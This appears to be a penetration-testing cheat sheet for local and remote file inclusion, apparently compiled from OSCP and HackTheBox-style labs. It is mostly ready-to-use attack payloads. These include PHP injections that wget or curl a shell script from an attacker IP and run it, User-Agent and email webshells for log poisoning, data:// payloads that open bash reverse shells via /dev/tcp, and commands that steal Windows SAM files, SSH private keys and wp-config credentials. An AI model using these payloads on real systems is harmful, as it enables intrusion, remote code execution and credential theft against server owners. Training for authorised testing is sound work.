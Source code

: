 # LFI/RFI

<details>

<summary>Signs</summary>

* Files being included in Get parameter

- Able to view file extensions (eg: french.html)

</details>

<details>

<summary>Method</summary>

#### Method

1. Try to view the server file (view the blacklist)
2. Log poisoning
3. Find Interesting files to read

[https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-(lfi).pdf](https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-\(lfi\).pdf)

</details>

<details>

<summary>Advanced LFI</summary>

[https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/file-inclusion/README.md#lfi-via-phps-assert](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/file-inclusion/README.md#lfi-via-phps-assert)

```bash
' and die(show_source('/etc/passwd')) or '
```

```php
'+and+die(system("wget+http%3a//192.168.45.5/shell.sh+-O+/tmp/shell.sh%3bchmod+777+/tmp/shell.sh%3b/tmp/shell.sh"))+or+'
```

```bash
' and die(system("curl http://192.168.45.5/shell.php|php")) or '
```

</details>

<details>

<summary>Base64-encoded LFI</summary>

<pre class="language-bash"><code class="lang-bash">/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
<strong># Always view index.php (might have DB config)
</strong><strong>/?debug=php://filter/convert.base64-encode/resource=index.php
</strong></code></pre>

### Export the wp-config.php and save as base64

```
http://172.16.1.10/nav.php?page=php://filter/convert.base64-encode/resource=../../../../var/www/html/wordpress/wp-config.php
```

</details>

<details>

<summary>User-Agent LFI</summary>

* Sometimes it's impt to use `"` as `'` is being used by the database to define the entire string (Putting Webshell in PHPLiteAdmin DB)

```php
User-Agent:<?php system($_GET['cmd']); ?>
```

```php
User-Agent:<?php system($_REQUEST["cmd"]); ?>
```

```php
User-Agent:<?php echo shell_exec($_GET["cmd"]);?>
```

</details>

<details>

<summary>LFI to RCE (Filter Chaining)</summary>

Use [https://github.com/Tanguy-Boisset/LFI-to-RCE-filters](https://github.com/Tanguy-Boisset/LFI-to-RCE-filters)

LFI is present in: `http://172.16.1.10/nav.php?../../../../etc/passwd`

```bash
python3 lfi-to-rce.py http://172.16.1.10/nav.php page
```

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>LFI To RCE (Log poisoning)</summary>

* Linux

<pre class="language-bash"><code class="lang-bash"><strong>view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&#x26;cmd=wget+http%3a//10.11.67.208%3a8023/php-reverse-shell.php
</strong></code></pre>

* WIndows

```bash
?page=../../../../../xampp/apache/logs/access.log
```

User-Agent:\<?php system($\_GET\['cmd']) ?>

RCE:

[http://192.168.165.53:4443/site/index.php?page=../../../../../xampp/apache/logs/access.log\&cmd=whoami ](http://192.168.165.53:4443/site/index.php?page=../../../../../xampp/apache/logs/access.log\&cmd=whoami)

</details>

<details>

<summary>LFI To RCE (Mail Method)</summary>

#### Send email to asterisk user (LFI /etc/passwd to determine user)

```bash
swaks --to asterisk@localhost --from 0xdf@0xdf.htb --header "Subject: test shell" --body 'check out this code: <?php system($_REQUEST["cmd"]); ?>' --server 10.10.10.7
```

#### Able to obtain RCE (webshell)

```bash
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action&cmd=id
```

![](<../.gitbook/assets/image (105).png>)

</details>

<details>

<summary>Testing for RFI</summary>

```php
<?php echo shell_exec('echo abc > /tmp/test.txt');echo file_get_contents('/tmp/test.txt');?> 
```

</details>

<details>

<summary>RFI Rev shell</summary>

```bash
http://10.11.1.35/section.php?page=data:text/plain,<?php echo shell_exec('bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.68%2F443%200%3E%261');?>
```

* Have to url-encode the rev shell payload in `shell_exec()`

```php
data:text/plain,<?php passthru("bash -i >& /dev/tcp/X.X.X.X/4444 0>&1"); ?>
```

</details>

<details>

<summary>Finding interesting files to read</summary>

Use Burpsuite --> Intruder --> wordlist: /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt

</details>

<details>

<summary>Interesting files (Linux)</summary>

* /etc/passwd&#x20;
* /etc/shadow&#x20;
* /etc/issue&#x20;
* /etc/group&#x20;
* /etc/hostname&#x20;
* /etc/ssh/ssh\_config&#x20;
* /etc/ssh/sshd\_config&#x20;
* /root/.ssh/id\_rsa&#x20;
* /root/.ssh/authorized\_keys&#x20;
* /home/user/.ssh/authorized\_keys&#x20;
* /home/user/.ssh/id\_rsa

```
RHEL / Red Hat / CentOS / Fedora Linux Apache access file location – /var/log/httpd/access_log
Debian / Ubuntu Linux Apache access log file location – /var/log/apache2/access.log
FreeBSD Apache access log file location – /var/log/httpd-access.log
```

* /etc/httpd/logs/access\_log&#x20;
* /etc/httpd/logs/error\_log
* &#x20;/var/www/logs/access\_log&#x20;
* /var/www/logs/access.log&#x20;
* /usr/local/apache/logs/access\_ log&#x20;
* /usr/local/apache/logs/access. log&#x20;
* /var/log/apache/access\_log&#x20;
* /var/log/apache2/access\_log&#x20;
* /var/log/apache/access.log&#x20;
* /var/log/apache2/access.log&#x20;
* /var/log/access\_log

</details>

<details>

<summary>Interesting files (Windows)</summary>

* /windows/system32/drivers/etc/hosts&#x20;

- ./../../xampp/apache/conf/httpd.conf
- ../../../xampp/password
- ../../../../../../Program Files/FileZilla Server/FileZilla Server.xml
- /boot.ini&#x20;
- /autoexec.bat&#x20;
- c:\xampp\htdocs\\...

### SAM Files & SECURITY FILES&#x20;

```bash
Systemroot is usually windows
windows\repair\SAM
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM


%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

* Just wget the files

```bash
wget "http://10.3.3.190/..%5C..%5C..%5CWindows/system32/config/RegBack/SAM.OLD"
```

</details>

<details>

<summary>Exfiltrating Binary Data Embedded in HTML Tags</summary>

```bash
 wget -qO- 'http://X.X.X.X/vulnpage?vulparam=..\..\..\..\..\..\..\..\..\..\..%5cWINDOWS%5cRepair%5cSAM%00en' |perl -l -0777 -ne 'print $1 if /<title.*?>\s*(.*?)\s*<\/title/si' > SAM
```

</details>

<details>

<summary>Capturing NetNTLMv2 from RFI</summary>

Using a protocol like SMB, victim will try to authenticate to our machine, and we can capture the NetNTLMv2. A NetNTLMv2 challenge / response is a string specifically formatted to include the challenge and response.&#x20;

On Attacker:

```bash
responder -I tun0
```

On Victim:

```
http://unika.htb/?page=//10.10.14.25/whatever
```

</details>

<details>

<summary>Shortening LFI Query</summary>

### Example (checking for keyword in LFI query)

LFI found:

```bash
http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt../../../../../../../../../etc/passwd
```

Filter is actually checking for the presence of `ninevehNotes.txt`

So the LFI query can be simplified to:

```bash
http://nineveh.htb/department/manage.php?notes=/ninevehNotes.txt/../etc/passwd
```

</details>

<details>

<summary>Apache 2.4.49</summary>

```bash
/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/home/anita/.ssh/id_ecdsa
```

</details>

<details>

<summary>Links</summary>

[https://oscp.infosecsanyam.in/web-application/lfi](https://oscp.infosecsanyam.in/web-application/lfi)

</details>

<details>

<summary>How to know if file is present but unable to be viewed currently?</summary>

`/nav.php?page=../../../../var/www/html/wordpress/wp-config.php` --> Status code 500

means that file is present but unable to be viewed --> need b64 encode

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

`/nav.php?page=php://filter/convert.base64-encode/resource=../../../../var/www/html/wordpress/wp-config.php`

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

OTHERWISE, if file is not present --> Status code 200

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

OR if file is present and viewable --> Status Code 200

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

</details>
